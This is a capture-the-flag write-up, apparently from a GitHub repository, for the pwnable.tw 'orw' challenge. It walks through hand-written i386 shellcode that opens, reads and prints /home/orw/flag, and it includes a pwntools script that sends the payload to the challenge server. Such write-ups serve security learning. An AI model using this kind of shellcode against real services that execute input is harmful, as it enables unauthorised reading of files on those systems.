 # pwnable.tw - orw

Original challenge link: https://pwnable.tw/challenge/#2

You can also download the binary in my repo: [orw.zip](orw.zip)

And now, let's start!

# 1. Find bug

This program read from our input and then run our input as shellcode in assembly.

One thing to notice is that running shellcode on your machine will not work, while running shellcode on server works very well. So to test the assembly code, just write as normal and compile with assembly until you find it good, then use `asm` from pwntools to compile that assembly code.

# 2. Idea

Just for practicing writing shellcode, we will use 3 syscall are `open` to open flag, `read` to read flag and store in a buffer and then `write` to write flag to screen. Remember that we need to open path `/home/orw/flag`, not just `flag`.

# 3. Exploit

So let's create a file with name `r.asm` to code assembly and I created a file named `compile.sh` to compile assembly code using `nasm`:

```bash
#!/bin/sh

nasm -f elf32 -o r.o r.asm
ld -m elf_i386 -s -o r r.o
```

And now we start to write our assembly code to get the flag. First, we will need to make the stack contain the string `/home/orw/flag` so that we can have a pointer point to that string later. By splitting 4 bytes from that string one by one, we can get those string as follows:

```python
u32('/hom')          -> 1836017711
u32('e/or')          -> 1919889253
u32('w/fl')          -> 1818636151
u32('ag\x00\x00')    -> 26465
```

And in assembly code, we push it in a reverse order:

```assembly
section .text
	global _start

_start:
	push 26465
	push 1818636151
	push 1919889253
	push 1836017711
```

Compile with the file `compile.sh` above and attach to gdb, we can see the string is correct:

![push-esp.png](images/push-esp.png)

Next, you can find the syscall number and the argument for per syscall [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit). So we want to do a `open` syscall, let's set all the argument now:

```assembly
    mov eax, 5
    mov ebx, esp
    mov ecx, 0
    mov edx, 0
    int 0x80
```

And the fd will be store in eax in case the file was opened successfully. Let's assume that the file was opened successfully and rax contain fd after syscall `open`. Let's read the flag with the fd we got:

```assembly
    mov ebx, eax
    mov eax, 3
    mov ecx, esp
    mov edx, 0x100
    int 0x80
```

And let's assume again that the flag is read and ecx is containing the pointer point to the flag read. Let's print it out with the following code:

```assembly
    mov eax, 4
    mov ebx, 1
    int 0x80
```

Now, let's add the full assembly code to python script and get the flag:

```python
from pwn import *

exe = context.binary = ELF('./orw', checksec=False)

# p = process(exe.path)
p = remote('chall.pwnable.tw', 10001)

payload = asm(
    '''
    push 26465
    push 1818636151
    push 1919889253
    push 1836017711

    mov eax, 5
    mov ebx, esp
    mov ecx, 0
    mov edx, 0
    int 0x80

    mov ebx, eax
    mov eax, 3
    mov ecx, esp
    mov edx, 0x100
    int 0x80

    mov eax, 4
    mov ebx, 1
    int 0x80
    ''', os='linux', arch='i386'
    )
p.sendafter(b'shellcode:', payload)
print(p.recvall())

p.interactive()
```

# 4. Get flag

![get-flag.png](images/get-flag.png)